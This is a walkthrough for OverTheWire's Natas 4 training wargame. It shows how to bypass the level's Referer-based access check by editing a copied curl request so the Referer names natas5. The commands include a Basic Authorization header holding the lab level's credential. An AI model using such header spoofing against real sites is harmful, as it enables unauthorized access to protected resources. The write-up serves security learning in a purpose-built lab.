 # 🔐 Natas 4 Walkthrough

To complete **Natas 4** of the OverTheWire wargames, we need to understand how **HTTP Referers** work.  
This particular level restricts access based on the `Referer` header — it must appear as though we're coming from **natas5**, even though we don't have direct access to that level yet.

---

## 🧠 The Clue

When you visit the site and refresh the page, you'll see:

> **Access disallowed. You are visiting from ...natas4... while authorized users should come only from ...natas5...**

This means our current request is coming from the wrong source (natas4), and we need to spoof or change the `Referer` to make it seem like we’re coming from **natas5**.

---

## 🛠️  Step-by-Step: Modifying the Referer with `curl`

We'll solve this using `curl` in the terminal by customizing the HTTP headers.

### 1. Open Developer Tools

In your browser:

- Press `F12` or right-click → **Inspect**
- Go to the **Network** tab
- Refresh the page

You’ll see a request to `index.php`.

---

### 2. Copy the Request as `curl`

Right-click the `index.php` request and choose:

> **Copy → Copy as cURL**

You’ll get something like:

```bash
curl 'http://natas4.natas.labs.overthewire.org/index.php' \
  --compressed \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en,pl;q=0.7,en-US;q=0.3' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Referer: http://natas4.natas.labs.overthewire.org/index.php' \
  -H 'Authorization: Basic bmF0YXM0OlFyeVpYYzJlMHphaFVMZEhydEh4enlZa2o1OWtVeExR' \
  -H 'Connection: keep-alive' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'DNT: 1' \
  -H 'Sec-GPC: 1'
```
---

### 3. Change the Referer to point to natas5

All you have to do is modify the Referer header. Change:

```bash
-H 'Referer: http://natas4.natas.labs.overthewire.org/index.php'
```
To:

```bash
-H 'Referer: http://natas5.natas.labs.overthewire.org'
```

>Be sure to remove /index.php - it must be the root path of natas5.

---

### 4. Final command

Here's the full, working command:

```bash
curl 'http://natas4.natas.labs.overthewire.org/index.php' \
  --compressed \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en,pl;q=0.7,en-US;q=0.3' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Referer: http://natas5.natas.labs.overthewire.org/' \
  -H 'Authorization: Basic bmF0YXM0OlFyeVpYYzJlMHphaFVMZEhydEh4enlZa2o1OWtVeExR' \
  -H 'Connection: keep-alive' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'DNT: 1' \
  -H 'Sec-GPC: 1'
```

The output should grant you the password to natas5.
>Make sure to save these passwords somewhere, it ensures that you can come back after a longer break :)
